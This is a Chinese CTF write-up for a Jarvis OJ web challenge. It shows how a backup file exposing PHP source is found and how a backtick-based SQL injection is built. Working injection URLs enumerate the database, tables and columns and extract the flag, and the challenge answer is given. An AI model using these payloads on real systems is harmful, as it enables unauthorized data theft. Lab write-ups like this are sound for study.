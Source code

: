 ## 描述

题目入口：http://web.jarvisoj.com:32794/

Hint1: 先找到源码再说吧~~

## 题解

response 就这点东西

```
flag{xxx}
```

尝试 `flag.txt, robots.txt, index.html, index.php`，发现 `index.php` 得到了相同的结果。因此一定是 PHP 渲染 `index.php` 得到的结果，可能我们就是要找出这个源码。

查看 headers 发现了 Response 有 `Set-Cookie: PHPSESSID=agf3ue9ih4upenoj6shb6lmuo4; path=/`，是不是要从 Cookie 切入？

我想是不是还有其他文件，用御剑扫了一下，得到了

```
http://web.jarvisoj.com:32794/phpmyadmin/
http://web.jarvisoj.com:32794/config.php
http://web.jarvisoj.com:32794/index.php
http://web.jarvisoj.com:32794/phpmyadmin/db_create.php
```

哈哈，一个个试。好吧，一个都没有用。。查题解。

woc？？？？在后面加一个波浪号？？？这是什么蛇皮备份方式。

于是访问 http://web.jarvisoj.com:32794/index.php~ 得到

```php
<?php
require("config.php");
$table = $_GET['table']?$_GET['table']:"test";
$table = Filter($table);
mysqli_query($mysqli,"desc `secret_{$table}`") or Hacker();
$sql = "select 'flag{xxx}' from secret_{$table}";
$ret = sql_query($sql);
echo $ret[0];
?>
```

阅读了一些下，应该又是注入。先查一下 `mysqli_query` 的用法，没啥大发现。还是老老实实构造注入吧。

首先试了下 `table=flag` 没有返回 `Hello Hacker`，故 `secret_flag` 是一个表名。

经过我一段时间的尝试，我一点突破都没有。。。我太菜了。。还是看题解吧。

分析 ```desc `secret_{$table}` ``` 和 ```select 'flag{xxx}' from secret_{$table}```

`desc` 是 describe 命令，返回表信息的，见 https://www.jb51.net/article/93379.htm

只需在 `table` 里多加两个 ``` ` ``` 便可以实现注入，一些注入教程 https://blog.csdn.net/cnbird2008/article/details/6217839

先尝试注入是否成功

```
http://web.jarvisoj.com:32794/index.php?table=test` `union select 1
```

可是返回值还是 `flag{xxx}`。这是由于 PHP 代码里有 `echo $ret[0];`，所以我们要 `limit` 一下。

```
http://web.jarvisoj.com:32794/index.php?table=test` `union select 1 limit 1,1
```

成功得到 `1` 的返回值，那么开始我们的表演吧。

```
http://web.jarvisoj.com:32794/index.php?table=test` `union select database() limit 1,1
```

得到数据库名 `61d300`，再

```
http://web.jarvisoj.com:32794/index.php?table=test` `union select group_concat(table_name) from information_schema.tables where table_schema=database() limit 1,1
```

得到所有表名 `secret_flag,secret_test`，再

```
http://web.jarvisoj.com:32794/index.php?table=test` `union select group_concat(column_name) from information_schema.columns where table_name=0x7365637265745f666c6167 limit 1,1
```

得到列名 `flagUwillNeverKnow`，最后再获取内容即可

```
http://web.jarvisoj.com:32794/index.php?table=test` `union select flagUwillNeverKnow from secret_flag limit 1,1
```

## 答案

flag{luckyGame~}

